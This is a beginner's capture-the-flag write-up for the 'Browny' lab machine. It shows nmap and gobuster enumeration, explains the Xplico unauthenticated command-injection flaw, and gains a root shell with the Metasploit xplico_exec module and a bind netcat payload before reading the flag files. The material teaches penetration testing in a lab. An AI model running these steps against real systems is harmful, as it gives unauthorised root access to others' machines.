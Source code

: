 ```yaml
---
title: "Browny Machine Writeup (easy)"
date: 2019-04-28T01:12:17+02:00
author: "Ahmed Amin"
draft: true
cover: "cover.jpg"
---
```



======================
<h2>Quick Summary</h2>


Hey guys , today I will walkthrough step by step in Browny Machine.
this Machine is so good for beginner in pentration testing you will gonna learn a lot in this experenice.
It is an easy linux machine , We will exploit Xplico Remote Code Execution in a vulnerable version Xplico that listen on port 9876 by default. There is a hidden end-point at inside of the Xplico that allow anyone to create a new user that can execute a terminal command under the context of the root user.
its ip is 10.1.1.17 I gonna added it to /etc/hosts as Browny.lab<br>
Let’s get Start !


======================
<h2>Infomartions Gathering Phase</h2>
<h3>#Nmap</h3>

We will use nmap tool for collecting informations about our target such as what services are running , whats its versions and does those services has potential vulnerabilities.

<style>
pre {
    color: cyan;
}
</style>
<pre>
nmap -sV -sC -sT Browny.lab
</pre>

> sV: for version detection <br>
> sC: for lunch default scripts againts services <br>
> sT: for system is used to open a connection to every interesting port on the machine 





![nmap.PNG](/posts/images/nmap.PNG)

<h3>we notice that there three  ports are open.</h3>
we can access the machine via ssh protocol but we don't have any crediantials to able to access via ssh.
so we can to  do http enumeration for finding any clues that lead us to access the machine through that way



it just a dummy html page. and nothing more.

<img src = "/posts/images/dummy.png">

<h3>#Brupsuite</h3>
Via Brupsuite lets check The Get Request to server and Response Maybe we found something useful.
<img src = "/posts/images/dummy2.PNG">
Not Much except the explico that will be a great indicator for gaining access for this machine.

always while you doing http enumeration try to brute force subdirectries for finding any intersesting web pages could give you a greate information about your target

<h3>#Gobuster</h3>
Gobuster is such a greate tool for brute forcing hidden directories in web application.
<pre>
gobuster -u 'http://Browny.lab' -w /usr/share/wordlists/dirb/common.txt
</pre>

<img src = "/posts/images/dummy3.PNG">
based on the response code we got they have 403 which mean we don't have premission to access to those webpages.


<h2>vulnerabilty detection and analysis</h2>
after doing info-garthing we got only one clue that can lead us to gain access. the explico service is running.
so what is explico ? explico is a piece of software that used for parsing pcap files that help forensics team
for collecting evidence and artifacts.Xplico extracts each email (POP, IMAP, and SMTP protocols), all HTTP contents, each VoIP call (SIP), FTP, TFTP, and so on. the problem is  There is a hidden end-point at inside of the Xplico that allow anyone to create a new user with premission of root.once the pcap file uploaded .
Xplico execute an operating system command in order to calculate checksum of the file. Name of the for this operation is direclty taken from user input and then used at inside of the command without proper input validation. so we can execute a shell on system and gain access.<br> <a href ="https://www.rapid7.com/db/modules/exploit/linux/http/xplico_exec">there is a metasploit module will do all the hard works to take advantage of this flaw</a>


<h2>Exploitation Phase</h2>
<h3>#Metasploit</h3>

lets lunch the Metasploit framework and doing research on xplico http exploit
By doing search we will find exploit with rank excellent
<pre>
grep http search xplico
use exploit/linux/http/xplico_exec
</pre>
![meta1.PNG](/posts/images/meta1.PNG)
<pre>
show options
set LHOST 10.253.x.x
set LHOST 10.1.1.17
show payloads
set  PAYLOAD cmd/unix/bind_netcat
</pre>

![meta2.PNG](/posts/images/meta2.png)

and now we have a shell.let do id command line to know make sure about privilege as root
we play an easy machine so don't need to privilege escalation or any complicated stuffs. all we need to do
is explore the system files after we sure that we are root. and open the root.txt and user.txt to  get the flags
<pre> 
id
pwd
find /home
find /root
cat /home/granit/usr.txt
cat /root/root.txt
</pre>
==============================
<h2>Understanding The Exploitation in Depth</h2>
I recommend you to read this artical <a href="https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/">Readme</a> will explain to you the details of the flaw in explico
this step is essential to not be a script kid that know doing stuffs without knowing what happing behind the scene

that's all about this machine. 
<h4>Stay tuned for upcoming series</h4>
<h3>Feedback is it very appreciate</h3>

